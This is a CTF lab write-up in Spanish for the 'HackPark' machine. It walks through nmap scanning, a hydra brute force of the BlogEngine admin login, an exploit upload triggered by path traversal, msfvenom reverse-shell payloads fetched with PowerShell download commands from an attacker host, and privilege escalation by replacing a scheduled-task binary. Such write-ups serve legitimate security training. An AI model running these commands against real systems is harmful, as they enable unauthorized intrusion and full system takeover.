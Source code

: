 # HackPark

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.65.121 -oG allports
nmap -sC -sV -p 80,3389 -Pn -n 10.10.65.121 -oN targeted
```

![0408130121](0408130121.png)

## 80

Existe una pagina en /Account/login.aspx?ReturnURL=/admin/

![0408140240](0408140240.png)

Usaremos hydra para sacar la contraseña, se probará con el usuario admin que es el usuario por defecto en blogengine

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.65.121 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=96wqtyMMw%2ByGDvAbjpbjmZZ%2B3iTEcRk8bDEDhs%2BgLBvn50kWyqruNVQipjhdHpq0gQqlakvET2xXrV27q6dWHOqmdRmcJyfa010SwCcc6QWAcEkZTgCQzSTY%2Fvye2ET7OgmqFOVsG8qNN3HW%2FKXBJ6Ut8iQeffwVFhK0TXeg2eSX10SD7eKDNvkF7XbDNlUTMBI7u5tmZKPiGu44%2Bscq3otARP7CMNZL%2BY7ao2pYf0D4wJlQVVHNEsmbB%2Bcgy66WvkxEGrpCLES8fntQbgFjOC%2FjpiJ7zSxe5iwndEtxGpotFSbEnfvm55y6s%2BHBfGejw61dHikt4x4ZvRlo%2BgPemEz6avsNWhKAzvY8C5AC4fIFNxtE&__EVENTVALIDATION=NcoGunaTvYWBEZN5DLfjY0ZE1Sd0Aq0oCfFBnbycegHEk3BUrMbLyKVzUoK9kqVjVyVdjQTSX6cEeoXIAU%2FNNxh6Y8dCypO7DoAxpjIkPoOhO5kpEez56r0fE6RbuzyKtsl0IV2R9DtqgEnrW2TnR0XmHODZ2g2tyvhlZvxtxXQlpDcb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Iniciar+sesi%C3%B3n:Login failed'
```

![0408140248](0408140248.png)

## Searchsploit

```bash
# Buscamos la vulnerabilidad en searchsploit
searchsploit blogengine 3.3.6
# Lo descargamos
searchsploit -m aspx/webapps/46353.cs
```

El exploit nos indica que debemos modificar el archivo indicando nuestra IP y puerto al cual se va a conectar, ademas renombrar el archivo con el nombre de `PostView.ascx` 

![0408200825](0408200825.png)

Entramos a el siguiente enlace  con la ip del sitio web http://10.10.10.10/admin/app/editor/editpost.cshtml y usamos el *"file manager"* para agregar archivos y subimos nuestro archivo PostView.ascx|. Finalmente debemos estar escuchando con netcat con el puerto indicado en el archivo e ingresar a  http://10.10.10.10/?theme=../../App_Data/files para que se arrancar el epxloit.

![0408200839](0408200839.png)

## Cambiar a una shell de meterpreter

```bash
# Crear la shell de meterpreter
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o meterpreter_shell.exe
```

Descargarlo desde la pc atacante

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/meterpreter_shell.exe','meterpreter_shell.exe')"
```

En la consola de metasploit escuchamos

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip
set LPORT listening-port
run
```

Ejecutamos la conexion

```cmd
.\meterpreter_shell.exe
```

## Escalar privilegios con el servicio Message.exe en C:\Program Files(x86)\SystemScheduler\Message.exe

Creamos una reverse shell de nombre Message.exe así como hicimos antes

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5432 -f exe -o Message.exe
```

y lo descargamos en `C:\Program Files(x86)\SystemScheduler\Message.exe`

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/Message.exe','Message.exe')"
```

Despues de unos segundos se tendrá la conexion en meterpreter y podemos usar cmd para que nos muestre el promt y ya estaríamos como Administrator a pesar de que cuando intento usar whoami no me responde. u.u

## Sin usar meterpreter

Nos quedamos con la reverse shell usando netcat. Esta vez nos pasaremos a otra shell usando el comando:

```bash
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o windows_shell.exe
```

Escuchamos con netcat usando `nc -lvp 5555`

Descargamos la reverse shell antes generado con:

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/windows_shell.exe','windows_shell.exe')"
.\windows_shell.exe
```

## winpeas para analizar la maquina

usaremos este enlace https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat y lo descargamos en la maquina con 

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/winPEAS.batx86','winPEASx86.bat')"
.\winPEAS.bat
```

